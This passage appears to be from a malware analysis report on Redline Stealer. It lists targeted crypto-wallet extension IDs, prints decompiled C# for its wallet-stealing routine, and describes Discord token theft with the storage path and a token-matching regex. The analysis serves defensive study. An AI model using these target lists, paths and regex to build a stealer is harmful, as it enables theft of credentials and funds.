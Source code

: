```text
bfnaelmomeimhlpmgjnjophhpkkoljpa|Phantom
fhilaheimglignddkjgofkcbgekhenbh|Oxygen
mgffkfbidihjpoaomajlbgchddlicgpn|PaliWallet
aodkkagnadcbobfpggfnjeongemjbjca|BoltX
kpfopkelmapcoipemfendmdcghnegimn|LiqualityWallet
hmeobnfnfcmdkdcmlblgagmfpfboieaf|XdefiWallet
lpfcbjknijpeeillifnkikgncikgfhdo|NamiWallet
dngmlblcodfobpdpecaadgfbcggfjfnm|MaiarDeFiWallet
bhghoamapcdpbohphigoooaddinpkbai|Authenticator
ookjlbkiijinhpmnjffcofjonbfbgaoc|TempleWallet
```
*Figure 10. Redline Stealer Wallets*

The key is the path expected to match the wallet, and the value is the wallet name. Next, *Redline Stealer* iterates over the browser paths searching for Login Data, Web Data and Cookies. For each of the file paths matching these strings, Redline Stealer collects the valid paths for the crypto currency wallets (Figure 11).

```text
<browser-name>_<user-data-path>_<crypto_wallet>
"%Path%/Local Extension Settings/afbcbjpbpfadlkmhmclhkeeodmamcflc"
```
*Figure 11. Redline Stealer Crypto Wallet Paths*

Next, *Redline Stealer* searches for the files `wallet.dat` and wallet. These results are returned in a list of scanner results.

Once completed, *Redline Stealer* collects the files identified and sends them to the C2 server.

```csharp
public static void StealWallets(ConnectionProvider connection, SettingsStruct settings, ref ResultStruct result)
	{
		if (settings.Wallets)
		{
			SearchCryptoWallets searchCryptoWallets = new SearchCryptoWallets();
			searchCryptoWallets.Init(settings.ChromiumBrowserPaths);
			List<FileStruct> list = FileScanning.Search(new Extractor[]
			{
				new WalletDats(),
				searchCryptoWallets
			});
			list.AddRange(ConfigReader.Read(settings.AdditionalWallets));
			result.SystemInfo.WalletResults = list;
		}
	}
```
*Figure 12. Redline Stealer Stealing Wallets*

#### StealDiscord

To steal Discord tokens, *Redline Stealer* checks if the Discord module is enabled. If the module is enabled, Redline Stealer checks the directory `%AppData%\\discord\\Local Storage\\leveldb` for the file extensions `.log` and `.ldb.` The files collected with these extensions are searched with the regex ``[A-Za-z\\d]{24}\\.[\\w-]{6}\\.[\\w-]{27}``. If a match is found, Redline Stealer adds the Discord token to a structure containing the tokens. Once completed, they are added to the SystemInfo structure, which is later sent to the C2 server.
